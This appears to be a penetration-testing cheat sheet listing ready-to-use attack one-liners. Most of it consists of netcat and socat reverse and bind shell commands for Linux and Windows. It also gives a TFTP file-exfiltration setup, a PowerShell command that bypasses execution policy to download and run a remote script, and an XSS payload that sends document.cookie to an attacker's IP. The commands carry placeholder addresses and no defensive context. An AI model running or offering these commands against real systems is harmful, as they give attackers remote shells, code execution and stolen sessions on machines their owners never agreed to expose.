 # tools

## Reverse Shells
Recipes for reverse shells from A to target B:

### Netcat
A: `nc -nlvp 4444`  
B (Linux): `nc -nv $A_IP $PORT -e /bin/bash`  
B (Windows): `nc -nv $A_IP $PORT -e cmd.exe`  

### Socat
#### Unencrypted
A: `socat -d -d TCP4-LISTEN:$PORT STDOUT`  
B (Linux): `socat TCP4:$A_IP:$PORT EXEC:/bin/bash`  
B (Windows): `socat TCP4:$A_IP:4433 EXEC:'cmd.exe',pipes`  

#### Encrypted
This requires you to create a self-signed SSL certificate.  

A: `socat -d -d OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork STDOUT`  
B (Linux): `socat OPENSSL:$A_IP:$PORT,verify=0 EXEC:/bin/bash`  
B (Windows): `socat OPENSSL:$A_IP:$PORT,verify=0 EXEC:'cmd.exe',pipes`  

## Bind Shells
Recipes for bind shells from A to target B:  

### Netcat
A: `nc -nv $B_IP $PORT`  
B (Linux): `nc -nlvp $PORT -e /bin/bash`  
B (Windows): `nc -nlvp $PORT -e cmd.exe`  

### Socat
#### Unencrypted
A: `socat - TCP4:$B_IP:$PORT`  
B (Linux): `socat -d -d TCP4-LISTEN:$PORT EXEC:/bin/bash`  
B (Windows): `socat -d -d TCP4-LISTEN:$PORT EXEC:'cmd.exe',pipes`  

#### Encrypted
This requires you to create a self-signed SSL certificate.  

A: `socat - OPENSSL:$B_IP:$PORT,verify=0 STDOUT`  
B machine (Linux): `socat OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork EXEC:/bin/bash`  
B machine (Windows): `socat OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork EXEC:'cmd.exe',pipes`  

## Self-Signed SSL Certificate
`openssl req -newkey rsa:2048 -nodes -keyout cert.key -x509 -days 10 -out cert.crt && cat cert.key cert.crt > cert.pem`  

## Web Servers

### Python
2: `python -m SimpleHTTPServer $PORT`  
3: `python -m http.server $PORT`  

### PHP
`php -S 0.0.0.0:$PORT`

### Ruby
`ruby -run -e httpd . -p $PORT`

### Busybox
`busybox httpd -f -p $PORT`

## File Transfers

### Windows to Linux

#### No Powershell
On the linux host setup TFTP:
* `sudo apt update && sudo apt install tftp`
* `sudo mkdir /tftp`
* `sudo chown nobody: /tftp`
* `sudo atftpd --daemon --port 69 /tftp`

On the windows host:
`tftp -i $LINUX_HOST_IP put important-document.extension`

## Proxy Traffic

### Windows
Forward traffic from SOURCE_PORT on SOURCE_ADDRESS to TARGET_PORT on TARGET_ADDRESS.  
`netsh interface portproxy add v4tov4 listenport=$SOURCE_PORT listenaddress=$SOURCE_ADDRESS connectaddress=$TARGET_ADDRESS connectport=$TARGET_PORT`

## Misc
### Run powershell script from remote web server
`powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('http://web-server-ip/script.ps1')`

### Get Public IP
To get your public IP address on Linux run `dig +short myip.opendns.com @resolver1.opendns.com`  

### Steal Cookies
`<script>new Image().src="http://IP/random.jpg?output="+document.cookie;</script>`

